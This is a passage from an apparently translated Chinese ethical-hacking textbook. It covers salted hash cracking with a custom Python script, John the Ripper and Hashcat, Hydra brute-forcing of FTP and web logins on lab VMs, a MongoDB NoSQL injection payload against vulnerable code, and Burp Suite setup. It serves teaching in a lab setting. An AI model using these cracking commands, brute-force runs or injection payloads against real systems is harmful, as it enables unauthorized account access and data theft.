你可以通过运行以下命令，将 SecLists Git 仓库克隆到 Kali Linux 桌面：

```
kali@kali:~/Desktop$ git clone https://github.com/danielmiessler/SecLists
```

#### *使用随机数（Nonce）对哈希值进行加盐*

如果两个用户使用相同的密码，那么这两个密码将生成相同的哈希值。这会泄露信息，因为它允许一个访问数据库的黑客知道两个用户使用了相同的密码。此外，正如你刚才发现的，黑客如果恰好对相同的文本进行哈希，也能推算出密码的值。出于这个原因，开发人员通常会在对密码进行哈希之前，向密码前添加一个随机数（nonce）。这个随机数通常被称为 *盐值*。盐值被添加到密码之前，得到的字符串会被哈希并存储在数据库中。原始的盐值也会存储在单独的列中。

### 构建一个盐值哈希破解器

现在是时候编写我们自己的哈希破解工具了。我们的哈希破解器将从数据库中提取盐值并将其与明文密码连接，计算结果的哈希值。然后，它将把得到的哈希值与正在破解的哈希值进行比较。我们会对字典中的每个密码重复这个过程，直到找到匹配的密码为止。请在 Kali Linux 桌面上的 *HashCrack* 文件夹中创建一个名为 *myHashCracker.py* 的新文件，并将以下内容复制到其中：

```
import hashlib

def crack_MD5_Hash(hash_to_crack, salt, dictionary_file):

    file = open(dictionary_file, "r")

 ➊ for password in file:

        salted_password = (salt + password.strip("\n")).encode('UTF-8')

        if hashlib.md5(salted_password).hexdigest() == hash_to_crack:

         ➋ return password

    return None

➌ hash_to_crack = 'c94201dbba5cb49dc3a6876a04f15f75'

   salt = 'd6a6bc0db10694a2d90e3a69648f3a03'

   dict = "/home/kali/Desktop/SecLists/Passwords/darkweb2017-top10000.txt"

   password = crack_MD5_Hash(hash_to_crack, salt, dict)

   print(password)
```

该程序将遍历所提供字典中的所有密码 ➊，并计算盐值和密码组合后的哈希值。如果结果与提供的哈希匹配，程序将返回明文密码 ➋。然而，如果哈希不匹配，它将尝试字典中的下一个密码。该过程将继续，直到找到匹配的密码，或者直到检查完字典中的每个密码。如果没有找到匹配项，程序将返回 `None`。

运行 Python 脚本来破解哈希值，我们在脚本中硬编码了该哈希值 ➌：

```
kali@kali:~/Desktop/HashCrack$ python3 myHashCracker.py
trustno1
```

一旦脚本完成，它应该会打印出密码 `trustno1`。

### 流行的哈希破解和暴力破解工具

其他黑客已经构建了一些有用的哈希破解工具，其中许多工具已预装在 Kali Linux 上。例如，*John the Ripper* 是一个大型社区项目，可以破解多种类型的哈希。

#### *John the Ripper*

让我们使用 John the Ripper 来破解以下哈希，你应将其保存到文本文件中：

```
kali@kali:~/Desktop/HashCrack$ echo 8

			 afcd5cc09a539fe6811e43ec75722de24d85840d2c03333d3e489f56e6aa60f > hashes.txt
```

运行以下命令以开始破解过程。

```
kali@kali:~/Desktop/HashCrack$ sudo john --format=raw-sha256 --wordlist="/home/kali/Desktop/

			 SecLists/Passwords/Leaked-Databases/000webhost.txt" hashes.txt
Using default input encoding: UTF-8
```

过程完成后，你可以运行以下命令查看已破解的密码列表：

```
kali@kali:~/Desktop/HashCrack$ sudo john --format=raw-sha256 --show hashes.txt

?:trustno1

1 password hash cracked, 0 left
```

#### *Hashcat*

另一个有用的哈希破解工具，*Hashcat*，包括一些优化，使你能够更快速地进行字典攻击。例如，Hashcat 会并行化过程，使软件能够利用像 *图形处理单元（GPU）* 这样的特殊硬件，这些硬件可以同时运行多个操作。

然而，由于这些优化，运行 Hashcat 在虚拟机中可能会导致非法指令错误。因此，您需要在虚拟实验室环境之外安装并运行它。在严肃的黑客中，常见做法是构建专门的密码破解机器，配备强大的处理器和 GPU。

让我们使用 Hashcat 破解*hashes.txt*文件：

```
hashcat -a 0 -m 1400 hashes.txt ~/Desktop/SecLists/Passwords/darkweb2017-top10000.txt
```

`-a`标志表示用于破解哈希值的攻击模式或策略。您可以通过使用`**--help**`标志查看可能的攻击模式：

```
kali@kali$hashcat --help

  # | Mode

 ===+======

  0 | Straight

  1 | Combination

  3 | Brute-force

  6 | Hybrid Wordlist + Mask

  7 | Hybrid Mask + Wordlist
```

选项`0`，`Straight`模式（我们在这里使用的模式），会逐个尝试字典中的每个单词，直到找到匹配项。选项`1`，`Combination`模式，会尝试不同单词的多个组合。例如，它可能将密码*fire*与密码*walker1*组合，生成密码*firewalker1*。选项`3`，`Brute-force`模式，会尝试所有可能的组合，直到发现密码。例如，该工具可能会尝试值*a*、*aa*、*ab*，以此类推。

为了减少 Hashcat 需要测试的组合数量，您可以提供一个掩码。*掩码*是定义密码结构的模式。例如，模式`?u?l?l?d?s`指定了一个五个字符的密码。`?u`表示密码以大写字母开头。接下来是两个小写字母（`?l`），然后模式以数字（`?d`）和符号（`?s`）结尾。因此，这个掩码可能会测试密码`Bas5!`。

`-m`（或模式）选项表示用于创建哈希值的算法。您可以通过在终端中运行`hash -h`来查看可用模式的完整列表。以下是一些可用模式的片段：

```
       # | Name                      | Category

   ======+===========================+====================================

       0 | MD5                       | Raw Hash

 ➊ 1400 | SHA2-256                  | Raw Hash

      10 | md5($pass.$salt)          | Raw Hash, Salted and/or Iterated

 ➋ 1420 | sha256($salt.$pass)       | Raw Hash, Salted and/or Iterated
```

模式`1400`表示使用 SHA2-256 算法计算的哈希值 ➊，而模式`1420`表示一个哈希算法，它首先将盐值附加到密码上，再通过 SHA2-256 计算 ➋。哈希算法可以进行多次迭代，每次使用上一次运行的输出作为下一次运行的输入。例如，模式`2600 md5(md5($pass))`计算两次 MD5 哈希。这个迭代值通常存储在数据库中。Hashcat 支持其预定义模式的固定迭代次数，但像*MDXfind*这样的工具支持任意次数的迭代。存储密码的最佳方法是先加盐，然后使用像 SHA-3 这样的安全哈希函数进行多次哈希，或者更好的是，使用像 scrypt 或 Argon 2i 这样的内存硬算法。

#### *Hydra*

在恢复了用户名和密码之后，您可以用它们做什么？您可以尝试用它们登录像 FTP 或 SSH 这样的服务。在这里，我们介绍了*Hydra*，一款自动化工具，可以通过使用用户名和密码对列表来尝试登录服务。

练习使用 Hydra 通过其 FTP 服务器突破你的 Metasploitable 虚拟机。FTP 允许用户向服务器上传文件。你可以使用 *ftp-betterdefaultpasslist.txt* 列表中的默认用户名和密码，该列表是 SecLists 的一部分。以下是完整列表的副本：

```
anonymous:anonymous
root:rootpasswd
root:12hrs37
ftp:b1uRR3
admin:admin
localadmin:localadmin
admin:1234
```

SecLists 中的文件并不总是这么短。事实上，FTP 默认密码列表是 SecLists 集合中最短的列表之一，这使得它成为演示此类攻击的理想选择。列表越长，运行所需的时间就越长。

使用以下命令运行 Hydra；IP 地址 `192.168.1.101` 代表 Metasploitable 服务器的 IP 地址：

```
kali@kali:~/Desktop/HashCrack$ hydra -C ~/Desktop/SecLists/Passwords/Default-
 Credentials/ftp-betterdefaultpasslist.txt 192.168.1.101 ftp

[21][ftp] host: 192.168.1.101   login: ftp         password: b1uRR3

[21][ftp] host: 192.168.1.101   login: anonymous   password: anonymous

[21][ftp] host: 192.168.1.101   login: ftp         password: ftp
```

输出显示服务器上有三个使用默认登录凭据的 FTP 账户。现在，你可以使用 FTP 服务器，例如，上传一个植入物。尝试使用类似的方法访问 SSH 账户。

### 练习

这些练习将拓宽你对本章讨论的概念的理解。在第一个练习中，我们将讨论 NoSQL 注入技术。然后，我们将探讨如何使用像 Hydra 这样的工具自动化暴力破解密码的过程。最后，我们将讨论 Burp Suite 及其代理，它们允许你拦截和修改 web 请求和响应。

#### *NoSQL 注入*

NoSQL 数据库是相对于使用 SQL 的数据库的一种替代方案。与将数据存储在表格中的传统数据库不同，这些数据库将数据存储在称为文档的对象中，文档被组织成集合。NoSQL 数据库没有标准查询语言，因此得名。相反，每个 NoSQL 平台（包括 MongoDB 和 Firebase）都使用其自己的语法和协议。因此，程序员通常依赖于库来与这些系统进行交互。

让我们来看一个与 MongoDB NoSQL 数据库交互的 Python 库的示例。以下 Python 程序通过 HTTP 表单 `POST` 的社会安全号码，并使用 `pymongo` Python 库查询 MongoDB 数据库：

```
   import pymongo

➊ db_client = pymongo.MongoClient("mongodb://localhost:27017/")
➋ databases = db_client["company_database"]

➌ def getUserInfo(post_ssn):

       collection = databases["customers"]

    ➍ query = { "SSN": "+post_ssn+" }

       doc = collection.find(query)

       return doc
```

我们连接到运行在 `27017` 端口上的 MongoDB 数据库 ➊。（MongoDB 的默认安装没有密码保护。）接下来，我们选择要查询的数据库 ➋。然后，我们定义一个名为 `getUserInfo` 的函数 ➌。该函数获取来自表单的 `POST` 请求中的社会安全号码，并用它查询客户集合中的用户信息 ➍。MongoDB 查询以键值对的形式表示，语法如下：`collection.find({"key":"value"})`。在 `{"SSN": "+post_ssn+""}` 中，社会安全号码是来自表单的 `SSN` 字段中的值（`post_ssn`）。

和 SQL 数据库一样，我们可以将信息注入 NoSQL 数据库，从而改变查询的含义。例如，假设我们向 `POST` 表单提供了以下输入：`{$ne: ""}`。这将导致以下查询：

```
{"SSN": {$ne:""}}
```

`ne` 操作符在 MongoDB 中表示 *不等于*，因此查询现在返回所有 `SSN` 字段不为空的用户数据。

除了读取数据外，你还可以将自己的数据，甚至是代码，注入到数据库中。像 *NoSQLMap* 这样的工具能够自动化利用 NoSQL 数据库的过程。你可以通过访问其 GitHub 页面 *[`github.com/codingo/NoSQLMap/`](https://github.com/codingo/NoSQLMap/)* 来获取 NoSQLMap。练习使用它，看看你能发现什么。

#### *暴力破解网页登录*

在本章中，我们使用基于字典的攻击破解了哈希并登录了 FTP 服务器。你也可以通过尝试一些列表中的所有用户名和密码来使用字典攻击登录 Web 应用。你可能会通过提交包含用户登录数据的多个 HTTP 请求来实现这一点。

Hydra 使你能够自动化此过程。运行以下命令，将 *darkweb2017-top100.txt* 中的用户名和密码发送到 Mutillidae 中的登录表单：

```
kali@kali:~$hydra -l <USERNAME> -P ~/Desktop/SecLists/Passwords/darkweb2017-

			 top100.txt 192.168.1.101 http-get-form "/mutillidae/index.php?page=

			 user-info.php&:username=^USER^&password=^PASS^&: Error: Bad user name

			 or password"
```

首先，指定 Web 应用的 URL。Hydra 使用冒号来分隔选项。接下来，指定包含用户输入数据的查询字符串参数。这里，我们提交多个请求，使用不同的用户名和密码参数值。使用 (`^USER^`) 和 (`^PASS^`) 占位符来指示 Hydra 在 URL 中插入用户名和密码。最后，你必须指定当登录尝试失败时，HTTP 响应中包含的错误信息。

运行命令，查看 Hydra 发现了哪些用户名和密码。在你熟练掌握 Hydra 后，看看是否能访问 Metasploit 机器上的 PostgreSQL 服务器。

#### *Burp Suite*

注入攻击通常需要修改 HTTP 请求。让我们尝试使用一款能简化此过程的工具。Burp Suite 的免费社区版提供一个 GUI，允许你快速修改浏览器发送和接收的 HTTP 请求和响应。这是可能的，因为 Burp Suite 作为浏览器和服务器之间的代理，每条浏览器发送或接收的 HTTP 消息都会先经过 Burp Suite。

默认情况下，Kali Linux 上的浏览器未配置通过代理发送网页请求，但你可以通过打开 Firefox 的偏好设置，搜索 **Network Settings** 来配置 Firefox 使用你的代理（参见图 12-6）。



*图 12-6：配置将流量通过 Burp Suite 路由的 Firefox 设置*

配置好浏览器后，通过访问 *[`cs.virginia.edu/`](http://cs.virginia.edu/)* 生成一些网页流量。Burp Suite 会拦截请求，你可以通过点击 **Proxy** 和 **Intercept** 标签，分别在图 12-7 的 1 和 2 位置查看请求。



*图 12-7：Burp Suite 捕获的 cs.virginia.edu 的 HTTP 请求*

在 Burp Suite 捕获到请求后，你可以修改它或将其原封不动地转发给 Web 服务器。你还可以将请求或响应发送到另一个 Burp Suite 标签页，以便进行后续分析。探索 Burp Suite，熟悉其功能后，尝试修改 HTTP 请求以执行基础的 SQL 注入攻击。
